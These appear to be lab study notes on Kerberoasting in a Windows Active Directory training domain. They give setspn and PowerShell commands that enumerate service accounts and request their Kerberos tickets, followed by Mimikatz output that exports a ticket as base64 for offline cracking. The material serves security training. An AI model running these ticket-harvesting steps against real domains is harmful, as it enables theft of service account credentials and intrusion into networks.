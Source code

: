 # Windows - Kerberoasting

## Kerberoasting - Semi Manual method

### **Enumerating SPNs with setspn.exe**

```cmd-session
C:\htb> setspn.exe -Q */*
```

### **Targeting a Single User**

```powershell-session
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

* Add-type -> used to add .NET framework class to PowerShell session
  * \-AssemblyName -> specify an assembly that we want to use
* System.IdentitiyModel -> namespace that contains classes for building security token
  * New-Object -> create an instance of .NET framework object
  * System.IdentityModel.Tokens with KerberosRequestorSecurityToken -> to create a security token and pass SPN name to a class to request a Kerberos TGS ticket for target account in current login session

### **Retrieving All Tickets Using setspn.exe**

```powershell-session
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

request tickets for all accounts with SPNs set.

### Extracting Tickets from Memory with Mimikatz

```cmd-session
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export  

<SNIP>

[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFO
RUZSRUlHSFQuTE9DQUyiOzA5oAMCAQKhMjAwGwhNU1NRTFN2YxskREVWLVBSRS1T
UUwuaW5sYW5lZnJlaWdodC5sb2NhbDoxNDMzo4IEvzCCBLugAwIBF6EDAgECooIE
rQSCBKmBMUn7JhVJpqG0ll7UnRuoeoyRtHxTS8JY1cl6z0M4QbLvJHi0JYZdx1w5
sdzn9Q3tzCn8ipeu+NUaIsVyDuYU/LZG4o2FS83CyLNiu/r2Lc2ZM8Ve/rqdd+TG
xvUkr+5caNrPy2YHKRogzfsO8UQFU1anKW4ztEB1S+f4d1SsLkhYNI4q67cnCy00
```